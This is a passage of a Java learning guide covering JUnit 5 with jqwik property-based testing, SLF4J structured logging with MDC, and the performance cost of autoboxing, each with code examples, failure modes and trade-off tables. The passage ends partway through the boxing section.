## Keywords

1. [JLG-047 JUnit 5 and Property-Based Testing](#jlg-047-junit-5-and-property-based-testing)
2. [JLG-048 SLF4J Structured Logging](#jlg-048-slf4j-structured-logging)
3. [JLG-049 Boxing Performance Trap](#jlg-049-boxing-performance-trap)
4. [JLG-050 Log4Shell (CVE-2021-44228, 2021)](#jlg-050-log4shell-cve-2021-44228-2021)
5. [JLG-051 Java Deserialization CVE-2015-7501](#jlg-051-java-deserialization-cve-2015-7501)
6. [JLG-052 JEP Process and JCP Governance](#jlg-052-jep-process-and-jcp-governance)
7. [JLG-053 Inventory REST - Phase 4 (Modern Java + Loom)](#jlg-053-inventory-rest---phase-4-modern-java--loom)
8. [JLG-054 Java Expert Mastery Verification + Teaching Drill](#jlg-054-java-expert-mastery-verification--teaching-drill)

---

# JLG-047 JUnit 5 and Property-Based Testing

**TL;DR** - JUnit 5 is the modular test framework for Java; property-based testing generates thousands of inputs to find edge cases you would never write by hand.

---

### 🔥 Problem Statement

Manual test cases only cover scenarios the developer imagines.
A `sort()` method with 5 hand-written tests passes review but
fails on an input of 10,000 identical elements. The issue is
not laziness - it is that example-based tests are inherently
limited by the author's imagination. Property-based testing
inverts the approach: declare invariants the code must satisfy,
let the framework generate inputs that try to break them.

---

### 📜 Historical Context

JUnit 1-4 dominated Java testing for two decades but suffered
from a monolithic design. JUnit 5 (2017) split into three
modules: Jupiter (API), Vintage (backward compat), and
Platform (launcher). Property-based testing originated in
Haskell's QuickCheck (1999). jqwik brought the concept to
JUnit 5 as a native extension. The pattern is now standard in
Scala (ScalaCheck), Python (Hypothesis), and Rust (proptest).

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. Test isolation: each test method runs in a fresh instance.
   No shared mutable state between tests. JUnit 5 creates a
   new test class instance per method by default.
2. Deterministic failure reproduction: property-based
   frameworks record the seed that generated a failing input.
   Re-running with that seed reproduces the exact failure.
3. Shrinking: when a property fails on a large input, the
   framework reduces it to the smallest input that still
   triggers the failure. A failing list of 500 elements
   shrinks to a list of 2.

**DERIVED DESIGN:**
These invariants make property-based testing viable for CI:
isolation prevents cross-test pollution, seed recording makes
failures reproducible, and shrinking makes counterexamples
actionable.

**THE TRADE-OFF:**
**Gain:** broad input coverage, automatic edge-case discovery,
minimal counterexamples.
**Cost:** generator design effort, longer test execution,
moderate learning curve.

---

### 🧠 Mental Model

> Example-based tests are spot checks with a flashlight.
> Property-based tests flood the room with light. You
> describe the shape of valid inputs and the laws the
> output must obey, then the framework hunts for
> counterexamples.

- "Flashlight" -> hand-written test case
- "Flood light" -> generated inputs
- "Shape of valid inputs" -> `@ForAll` with constraints
- "Laws" -> properties (invariants)

**Where this analogy breaks down:** flood light implies
exhaustive coverage; property-based testing is probabilistic,
not exhaustive. It greatly increases coverage but cannot
guarantee all paths are hit.

---

### 🧩 Components

```text
JUnit 5 architecture:

Platform (launcher, engines)
  |
  +-- Jupiter (API + engine)
  |     +-- @Test, @ParameterizedTest
  |     +-- Extensions (@ExtendWith)
  |
  +-- Vintage (JUnit 3/4 compat)

jqwik (property-based, JUnit Platform):
  +-- @Property, @ForAll
  +-- Arbitraries (generators)
  +-- Shrinking engine
```



---

### 📶 Gradual Depth

**Layer 1 - Surface:** Write `@Test` methods with
`assertEquals`. Use `@BeforeEach` for setup. Run with
Maven Surefire or Gradle.

**Layer 2 - Parameterized:** Use `@ParameterizedTest` with
`@ValueSource`, `@CsvSource`, `@MethodSource` to run one
test logic against multiple inputs without copy-paste.

**Layer 3 - Property-based:** Add jqwik. Write `@Property`
methods with `@ForAll` parameters. Define `Arbitrary`
suppliers for domain types. Let the framework generate
hundreds of inputs and shrink failures.

**Layer 4 - Production integration:** Combine property tests
with example tests in the same suite. Use `@Tag` to separate
fast unit tests from slow property tests. Configure CI to run
property tests with a fixed seed for reproducibility and a
nightly job with random seeds for exploration.

---

### ⚙️ How It Works

```text
Example-based:         Property-based:
write input -> assert  declare property
  |                      |
  v                      v
run once               generate N inputs
  |                      |
  v                      v
pass/fail              find counterexample?
                         |
                       shrink to minimal
```



**Example - sorting invariant:**

```java
// Property: sorting any list of integers
// must produce a list that is:
// (a) same size, (b) sorted, (c) a permutation
@Property
void sortPreservesElements(
    @ForAll List<@IntRange(min = -1000,
        max = 1000) Integer> input) {
    var sorted = new ArrayList<>(input);
    Collections.sort(sorted);
    // same size
    assertThat(sorted).hasSameSizeAs(input);
    // sorted order
    for (int i = 1; i < sorted.size(); i++) {
        assertThat(sorted.get(i))
            .isGreaterThanOrEqualTo(
                sorted.get(i - 1));
    }
    // permutation (same elements)
    assertThat(sorted)
        .containsExactlyInAnyOrderElementsOf(
            input);
}
```

jqwik runs this with 1,000 random lists by default. If a
list like `[0, 0, 0, ..., 0]` (all identical) triggers a
bug, the shrinking engine reduces it to `[0, 0]` - the
minimal failing case.

---

### 🚨 Failure Modes

**Failure 1 - Flaky property tests from non-deterministic
seeds.**

When the seed is random per run, a test passes locally but
fails in CI. The CI log shows a counterexample but re-running
locally uses a different seed and passes.

**Diagnostic:** check the jqwik output for `seed = <value>`.
Re-run with `@Property(seed = "<value>")` to reproduce.

**Fix:** configure a fixed seed in CI via
`jqwik.properties` (`defaultSeed=<value>`) and run
random-seed exploration on a nightly schedule only.

**Failure 2 - Overspecified generators producing trivial
inputs.**

A generator constrained to `@IntRange(min=0, max=1)` only
tests 0 and 1 - no different from a parameterized test with
two values.

**Diagnostic:** log the generated inputs. If they lack
diversity, the generator is too narrow.

**Fix:** widen constraints. Use `Arbitraries.integers()` for
full range, then add `@Report(Reporting.GENERATED)` to see
distribution.

---

### 🔬 Production Reality

In practice, property-based tests catch a specific class of
bugs: boundary conditions, off-by-one errors, null handling,
and serialization round-trip failures. A common production
pattern:

**BAD:**

```java
@Test
void testSerialize() {
    var obj = new Order(1, "item", 9.99);
    byte[] bytes = serialize(obj);
    var back = deserialize(bytes);
    assertEquals(obj, back);
    // Tests ONE input. Misses: null fields,
    // Unicode strings, negative prices, NaN
}
```

**GOOD:**

```java
@Property(tries = 500)
void roundTripProperty(
    @ForAll @IntRange(min = 1, max = 999999)
        int id,
    @ForAll @StringLength(min = 0, max = 200)
        String name,
    @ForAll @DoubleRange(
        min = 0.0, max = 99999.99)
        double price) {
    var obj = new Order(id, name, price);
    var back = deserialize(serialize(obj));
    assertThat(back).isEqualTo(obj);
}
```

Teams that adopt property-based testing typically find 2-5
bugs in "well-tested" code within the first week. The bugs
are almost always edge cases no one thought to test manually.

---

### ⚖️ Trade-offs & Alternatives

| Aspect      | Example-based      | Parameterized       | Property-based     |
| ----------- | ------------------ | ------------------- | ------------------ |
| Coverage    | author imagination | explicit input list | generated          |
| Speed       | fast               | fast                | slower (N runs)    |
| Readability | high               | high                | moderate           |
| Failure msg | clear              | clear               | needs shrinking    |
| Setup cost  | minimal            | minimal             | generator design   |
| Best for    | happy path, smoke  | known edge cases    | invariant checking |

---

### ⚡ Decision Snap

**USE property-based testing WHEN:**

- The function has mathematical invariants (sort, encode,
  serialize, parse).
- Input space is large and edge cases are hard to enumerate.
- Bugs tend to appear in unexpected input combinations.

**AVOID WHEN:**

- The test is a simple integration check (API returns 200).
- Generator design would take longer than writing 5 examples.

**PREFER parameterized tests WHEN:**

- You have a known, finite set of boundary inputs.
- The team is not yet familiar with property-based testing.

---

### ⚠️ Top Traps

| #   | Misconception                             | Reality                                                                          |
| --- | ----------------------------------------- | -------------------------------------------------------------------------------- |
| 1   | Property tests replace example tests      | They complement example tests; keep both                                         |
| 2   | Random tests are inherently flaky         | Fixed seeds make them deterministic; flakiness means a real bug                  |
| 3   | `@RepeatedTest` is property-based testing | No - it repeats the same input; property-based generates new inputs              |
| 4   | More tries always finds more bugs         | Diminishing returns after ~1,000; focus on generator quality                     |
| 5   | jqwik is the only option                  | junit-quickcheck and vavr-test also exist, though jqwik has best JUnit 5 support |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JLG-008 Classes, Methods, Fields - basic Java structure
- JLG-027 Maven Build Lifecycle Basics - build tool for
  running tests

**THIS:** JLG-047 JUnit 5 and Property-Based Testing

**Next steps:**

- JLG-048 SLF4J Structured Logging - observability
  complements testing
- JLG-053 Inventory REST - Phase 4 - apply testing to the
  project

**The Surprising Truth:**
Property-based testing finds more bugs per line of test code
than any other testing technique. The reason is not the
quantity of inputs - it is the shift from "test specific
outputs" to "declare universal invariants." When you think
in invariants, you often discover that your specification
itself was incomplete.

**Further Reading:**

- JUnit 5 User Guide (junit.org/junit5/docs/current)
- jqwik User Guide (jqwik.net/docs/current)
- "Choosing properties for property-based testing"
  (fsharpforfunandprofit.com/posts/property-based-testing-2)

**Revision Card:**

1. JUnit 5 = Platform + Jupiter + Vintage. One test instance
   per method.
2. Property-based testing declares invariants; the framework
   generates inputs and shrinks failures.
3. Fixed seeds for CI reproducibility; random seeds for
   nightly exploration.

---

---

# JLG-048 SLF4J Structured Logging

**TL;DR** - SLF4J is the logging facade; structured logging emits key-value pairs instead of free-text messages, making logs machine-parseable and searchable.

---

### 🔥 Problem Statement

A service writes `log.info("Order processed for user " + userId)`. Searching for all orders from user 42 across 10
million log lines requires regex. Adding a new field (order
amount) means changing the message format and every downstream
parser. Structured logging emits
`{"user": 42, "orderId": "abc", "amount": 99.50}` - every
field is indexed, searchable, and the format is self-describing.

---

### 📜 Historical Context

Java logging fragmented early: java.util.logging (JDK 1.4),
Log4j (1999), Logback (2006). SLF4J (2004, Ceki Gulcu)
unified them behind a facade - swap the backend without
changing application code. Structured logging gained momentum
with the rise of centralized log platforms (ELK, Splunk,
Datadog) in the 2010s. Logstash Logback Encoder (2013)
enabled JSON output from Logback. Log4j 2 added native
structured layout later. The trend is clear: logs are data,
not prose.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. Facade decouples API from implementation: application code
   depends only on `org.slf4j.Logger`. The runtime classpath
   determines whether Logback, Log4j 2, or JUL handles output.
   Swapping backends requires zero code changes.
2. Parameterized messages avoid string concatenation:
   `log.info("User {}", userId)` formats the string only if
   the level is enabled. No `isInfoEnabled()` guard needed.
3. Structured fields are first-class: key-value pairs
   attached to a log event survive serialization to JSON,
   enabling exact-match queries without regex.

**DERIVED DESIGN:**
The facade pattern lets libraries log without forcing a
backend choice on their consumers. Structured fields make
logs machine-parseable for centralized search.

**THE TRADE-OFF:**
**Gain:** backend portability, zero-cost disabled messages,
machine-parseable output.
**Cost:** one more abstraction layer, JSON logs less
human-readable than plain text.

---

### 🧠 Mental Model

> SLF4J is a power outlet standard. Your application plugs
> into the outlet (the API). The building's wiring (Logback,
> Log4j 2) delivers the electricity. Structured logging is
> labeling every wire so an electrician can trace any circuit
> by name, not by color.

- "Power outlet" -> SLF4J API
- "Building wiring" -> logging backend
- "Labeled wire" -> structured key-value field
- "Electrician" -> log search platform

**Where this analogy breaks down:** electrical outlets are
truly interchangeable; logging backends have different
configuration syntaxes (logback.xml vs log4j2.xml).

---

### 🧩 Components

```text
Application code
  |
  v
SLF4J API (slf4j-api.jar)
  |
  v
SLF4J binding (one per app)
  +-- logback-classic
  +-- log4j-slf4j2-impl
  +-- slf4j-jdk14
  |
  v
Appender (console, file, network)
  |
  v
Layout (JSON structured / pattern text)
```



---

### 📶 Gradual Depth

**Layer 1 - Surface:** Add `slf4j-api` and `logback-classic`
to the classpath. Use `LoggerFactory.getLogger(MyClass.class)`
and call `log.info("message")`.

**Layer 2 - Parameterized messages:** Replace string
concatenation with `{}` placeholders:
`log.info("Order {} total {}", id, amount)`. The message is
only formatted if the level is enabled.

**Layer 3 - Structured logging:** Add Logstash Logback
Encoder. Configure `logback.xml` with
`LogstashEncoder` as the layout. Use
`StructuredArguments.kv("orderId", id)` or MDC (Mapped
Diagnostic Context) to attach key-value pairs.

**Layer 4 - Production pipeline:** Configure log shipping
(Filebeat, Fluentd) to ingest JSON logs into Elasticsearch or
a cloud log platform. Set up alerts on structured fields:
`level:ERROR AND service:payment AND latency_ms:>500`. Use
MDC for request-scoped context (traceId, userId) that
propagates across method calls.

---

### ⚙️ How It Works

```text
Unstructured:
INFO Order processed for user 42

Structured (JSON):
{"level":"INFO","msg":"Order processed",
 "user":42,"orderId":"abc",
 "amount":99.50,"traceId":"t-789"}
```



**BAD:**

```java
// String concatenation - always pays cost
log.info("User " + userId + " order " + orderId
    + " amount " + amount);
```

**GOOD:**

```java
import static
    net.logstash.logback.argument
    .StructuredArguments.kv;

log.info("Order processed",
    kv("user", userId),
    kv("orderId", orderId),
    kv("amount", amount));
// JSON: {"msg":"Order processed",
//   "user":42,"orderId":"abc","amount":99.50}
```

---

### 🚨 Failure Modes

**Failure 1 - Multiple SLF4J bindings on classpath.**

Symptom: `SLF4J: Class path contains multiple SLF4J bindings`
warning at startup, then unpredictable backend selection.

**Diagnostic:** run `mvn dependency:tree | grep slf4j` to
find which dependencies pull in bindings.

**Fix:** exclude transitive bindings in `pom.xml`:

```xml
<exclusion>
  <groupId>org.slf4j</groupId>
  <artifactId>slf4j-log4j12</artifactId>
</exclusion>
```

**Failure 2 - MDC context leak across threads.**

MDC is thread-local. When work moves to a thread pool, the
MDC from the original request is lost (or worse, stale MDC
from a previous request leaks into the new one).

**Diagnostic:** logs show wrong traceId for a request. Check
if the executor clears/copies MDC.

**Fix:** wrap tasks with MDC copy:

```java
var ctx = MDC.getCopyOfContextMap();
executor.submit(() -> {
    MDC.setContextMap(ctx);
    try { doWork(); }
    finally { MDC.clear(); }
});
```

---

### 🔬 Production Reality

In a microservices environment with 50+ services, structured
logging is not optional - it is the primary debugging tool.
A typical production setup:

1. Each request enters with a traceId (from the API gateway
   or generated at the edge).
2. MDC stores traceId for the request's lifetime.
3. Every log line includes traceId as a structured field.
4. Logs ship as JSON to a centralized platform.
5. Engineers search `traceId:abc-123` to see the full request
   path across all services.

Without structured logging, correlating logs across services
requires timestamp-based guessing. With it, a single query
returns every log line for a request in order.

Log volume at scale: a service handling 10,000 req/s at INFO
level produces roughly 200-500 MB of JSON logs per hour
(varies by message size and fields). Log rotation,
compression, and retention policies are essential.

---

### ⚖️ Trade-offs & Alternatives

| Aspect      | SLF4J + Logback      | Log4j 2            | JUL (java.util.logging) |
| ----------- | -------------------- | ------------------ | ----------------------- |
| Facade      | SLF4J                | SLF4J or native    | none (JDK built-in)     |
| Structured  | via Logstash Encoder | native JSON layout | requires custom         |
| Performance | good (async append)  | excellent (LMAX)   | adequate                |
| Adoption    | dominant             | growing            | legacy JDK apps         |
| Config      | logback.xml          | log4j2.xml         | logging.properties      |

---

### ⚡ Decision Snap

**USE SLF4J + structured logging WHEN:**

- Logs are shipped to a centralized platform.
- You need to search/alert on specific fields.
- Multiple services must be correlated by traceId.

**AVOID structured logging WHEN:**

- The application is a single CLI tool with console output.
- Log volume is trivial (< 100 lines/day).

**PREFER Log4j 2 backend WHEN:**

- Ultra-low-latency logging is required (LMAX Disruptor
  async appender).

---

### ⚠️ Top Traps

| #   | Misconception                       | Reality                                                           |
| --- | ----------------------------------- | ----------------------------------------------------------------- |
| 1   | SLF4J is a logging framework        | It is a facade; Logback/Log4j 2 is the framework                  |
| 2   | `log.debug("x=" + x)` is fine       | The concatenation happens even if DEBUG is disabled               |
| 3   | MDC works across thread pools       | MDC is thread-local; you must copy it manually for async work     |
| 4   | JSON logs are human-readable enough | Keep a pattern layout for local dev; JSON for production only     |
| 5   | More logging is better              | Excessive logging at INFO drowns signals; use DEBUG for verbosity |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JLG-008 Classes, Methods, Fields - basic Java application
  structure
- JLG-027 Maven Build Lifecycle Basics - dependency
  management

**THIS:** JLG-048 SLF4J Structured Logging

**Next steps:**

- JLG-050 Log4Shell - security implications of logging
  frameworks
- JLG-053 Inventory REST - Phase 4 - add logging to the
  project

**The Surprising Truth:**
The most common production logging mistake is not missing
logs - it is too many logs with too little structure. Teams
that switch from unstructured to structured logging typically
reduce their mean-time-to-diagnosis by 60-80% (varies by
team and tooling) not because they have more data, but
because the existing data becomes searchable.

**Further Reading:**

- SLF4J Manual (slf4j.org/manual.html)
- Logstash Logback Encoder (github.com/logfellow/
  logstash-logback-encoder)
- "Structured Logging" (Splunk documentation, structured
  data best practices)

**Revision Card:**

1. SLF4J = facade. One binding on classpath. No string
   concatenation in log calls.
2. Structured logging = key-value pairs. Use
   StructuredArguments or MDC.
3. MDC is thread-local - copy it when crossing thread
   boundaries.

---

---

# JLG-049 Boxing Performance Trap

**TL;DR** - Autoboxing silently converts primitives to wrapper objects; in hot loops this creates millions of short-lived objects, hammering GC and destroying throughput.

---

### 🔥 Problem Statement

A developer writes `Map<String, Integer>` for a hot-path
lookup used 10 million times per second. Every `map.get()`
returns an `Integer` that must be unboxed to `int`. Every
`map.put()` autoboxes the `int` to `Integer`. The JVM
allocates 10 million `Integer` objects per second, each 16
bytes, totaling 160 MB/s of garbage. GC pauses spike. The
fix is a primitive-specialized map - but first you need to
understand why the default collections are broken for this
use case.

---

### 📜 Historical Context

Java 1.0 (1996) had primitives and objects as separate type
systems. Generics (Java 5, 2004) could only parameterize over
objects, so autoboxing was added as syntactic sugar. This was
a pragmatic compromise: primitives stayed fast, generics
stayed type-erased, and the compiler inserted boxing/unboxing
calls silently. Project Valhalla (ongoing, targeted for a
future Java release) aims to unify primitives and objects via
value types, making this entire trap obsolete - eventually.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. Primitives live on the stack (or inline in objects);
   wrappers live on the heap. An `int` is 4 bytes with zero
   allocation. An `Integer` is 16 bytes (12-byte header +
   4-byte payload) plus GC tracking.
2. Autoboxing is compiler sugar, not optimization.
   `Integer x = 42` compiles to `Integer.valueOf(42)`. The
   JVM caches -128..127 by default; outside that range, a
   new object is allocated every time.
3. GC cost is proportional to allocation rate, not heap size.
   Millions of short-lived wrappers increase GC pause
   frequency and duration, manifesting as latency spikes.

**DERIVED DESIGN:**
Generics require objects, so `Map<String, Integer>` forces
boxing on every put/get. Primitive-specialized collections
(Eclipse Collections, arrays) bypass this entirely.

**THE TRADE-OFF:**
**Gain:** type safety and generics interoperability.
**Cost:** heap allocation per box, GC pressure in hot paths.

---

### 🧠 Mental Model

> Primitives are coins in your pocket - instant access, zero
> overhead. Wrapper objects are coins in individual envelopes
> (heap objects). Autoboxing is silently putting every coin
> into an envelope before storing it. The envelopes pile up
> and the garbage collector must open and recycle each one.

- "Coin" -> primitive value (4 bytes)
- "Envelope" -> wrapper object (16 bytes + GC)
- "Pile up" -> allocation rate
- "Recycle" -> GC collection

**Where this analogy breaks down:** the JVM caches small
Integer values (-128..127), so "envelopes" for small coins
are reused, not freshly created.

---

### 🧩 Components

```text
Source: map.put(key, count + 1)
           |
Compiler desugars to:
  int temp = map.get(key).intValue();
  temp = temp + 1;
  map.put(key, Integer.valueOf(temp));
           |
Heap: Integer@0x1 [value=42]  <- new object
      Integer@0x2 [value=43]  <- new object
           |
GC: collect unreachable Integer objects
```



---

### 📶 Gradual Depth

**Layer 1 - Surface:** Know that `Map<String, Integer>` boxes
every `int`. Prefer `int[]` or `long[]` for dense numeric
data.

**Layer 2 - Measurement:** Use `-verbose:gc` or GC logs to
see allocation rate. Use `jmap -histo` to count `Integer`
instances. High counts in a hot path indicate boxing.

**Layer 3 - Fix:** Use primitive-specialized collections:
Eclipse Collections `IntIntHashMap`, Koloboke, or HPPC.
These store raw `int` values without boxing. For streams,
use `IntStream` / `LongStream` / `DoubleStream` instead of
`Stream<Integer>`.

**Layer 4 - Future:** Project Valhalla value types will allow
`List<int>` and `Map<String, int>` natively. Until then,
primitive specialization is manual.

---

### ⚙️ How It Works

```text
Hot loop with boxing:

for (int i = 0; i < 10_000_000; i++)
  sum += list.get(i);  // unbox Integer->int
                        // 10M unbox calls

Hot loop without boxing:

int[] arr = ...;
for (int i = 0; i < 10_000_000; i++)
  sum += arr[i];        // direct memory read
                        // zero allocation
```



**BAD:**

```java
// Stream of boxed Integers
int sum = numbers.stream()
    .filter(n -> n > 0)
    .reduce(0, Integer::sum);
// Every lambda receives Integer, unboxes,
// result re-boxes for next stage
```

**GOOD:**

```java
// IntStream - no boxing
int sum = numbers.stream()
    .mapToInt(Integer::intValue) // unbox once
    .filter(n -> n > 0)
    .sum();
// All operations on raw int after mapToInt
```

---

### 🚨 Failure Modes

**Failure 1 - Latency spikes from GC pressure.**

A service processes 50,000 events/sec. Each event updates a
`Map<Long, Double>` counter. Autoboxing creates 100,000
wrapper objects per second (one Long + one Double per put).
GC young-gen collections every 200ms cause 5-15ms pauses.

**Diagnostic:** GC logs show frequent young-gen collections.
`jmap -histo:live` shows millions of `Long` and `Double`
instances.

**Fix:** Replace `Map<Long, Double>` with Eclipse Collections
`LongDoubleHashMap`. Allocation rate drops to near zero for
the counter path.

**Failure 2 - `==` comparison on boxed values.**

`Integer a = 200; Integer b = 200; a == b` returns `false`
because 200 is outside the cached range (-128..127). This is
not a performance trap - it is a correctness bug.

**Diagnostic:** comparison returns `false` for values that
are logically equal.

**Fix:** Always use `.equals()` for wrapper comparison, or
unbox to primitive before comparing.

---

### 🔬 Production Reality

The boxing trap is most visible in:

1. **Counters and accumulators** -
   `Map<String, AtomicLong>` vs primitive-backed counters.
2. **Event processing pipelines** - converting between
   `Stream<Integer>` and `IntStream` at every stage.
3. **Serialization** - frameworks that map JSON numbers to
   `Integer`/`Double` for every field of every message.

**Production pattern:**

```java
// Primitive-specialized map for counters
var counts = new LongIntHashMap(); // Eclipse Collections
for (var event : events) {
    counts.addToValue(event.userId(), 1);
    // No boxing. Direct primitive storage.
}
```

The performance difference is significant in hot paths:
primitive-specialized collections typically use 3-5x less
memory and run 2-4x faster for large maps compared to
`HashMap<Long, Integer>` (implementation-dependent, varies by
JVM version, map size, and access pattern).

---

### ⚖️ Trade-offs & Alternatives

| Aspect      | HashMap<K,V>    | Eclipse IntIntMap | int[]             |
| ----------- | --------------- | ----------------- | ----------------- |
| Flexibility | any object type | int keys + values | int values only   |
| Memory      | high (boxing)   | low (primitive)   | lowest (dense)    |
| Speed       | moderate        | fast              | fastest           |
| API         | standard JDK    | external library  | manual management |
| Generics    | yes             | no (specialized)  | no                |

---

### ⚡ Decision Snap

**USE primitive specialization WHEN:**

- A hot path allocates millions of wrapper objects per
  second.
- GC logs show high allocation rate from wrapper types.
- The data is numeric and the collection is large.

**AVOID WHEN:**

- The collection is small (< 1,000 entries) or cold path.
- Readability and standard API compatibility matter more
  than performance.

**PREFER IntStream/LongStream WHEN:**

- Processing numeric data in stream pipelines.

---

### ⚠️ Top Traps

| #   | Misconception                          | Reality                                                              |
| --- | -------------------------------------- | -------------------------------------------------------------------- |
| 1   | Autoboxing is free                     | Each box is a heap allocation (16 bytes) plus GC tracking            |
| 2   | `Integer.valueOf()` always caches      | Only -128..127 by default; outside that range, new object every time |
| 3   | `==` works for all Integer comparisons | Only for cached range; use `.equals()` or unbox                      |
| 4   | Modern GC eliminates boxing cost       | GC handles the garbage, but allocation rate still causes pauses      |
| 5   | Valhalla has already fixed this        | Value types are still in preview/development as of Java 21           |

---

### 🪜 Learning Ladder

**Prerequisites:**

